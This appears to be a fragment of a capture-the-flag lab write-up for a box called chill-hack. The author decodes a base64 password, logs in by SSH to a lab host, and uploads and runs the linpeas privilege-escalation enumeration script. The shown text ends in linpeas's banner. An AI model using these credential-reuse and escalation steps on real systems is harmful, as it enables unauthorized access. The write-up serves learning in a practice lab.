 i got a password that is in base64 and decided to decode it

```bash
➜  chill-hack echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
!d0ntKn0wmYp@ssw0rd
```

i used the password to login into the ssh server

```bash
➜  chill-hack ssh anurodh@10.10.186.200
anurodh@10.10.186.200's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 15 00:46:03 UTC 2023

  System load:  0.0                Processes:              123
  Usage of /:   24.9% of 18.57GB   Users logged in:        0
  Memory usage: 29%                IP address for eth0:    10.10.186.200
  Swap usage:   0%                 IP address for docker0: 172.17.0.1

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

19 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```

i checked the sudoers file but i can use it to escalate privilege so i decided to upload linpeas to my target and ran linpeas on the target

```bash
anurodh@ubuntu:~$ ./linpeas.sh 

                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```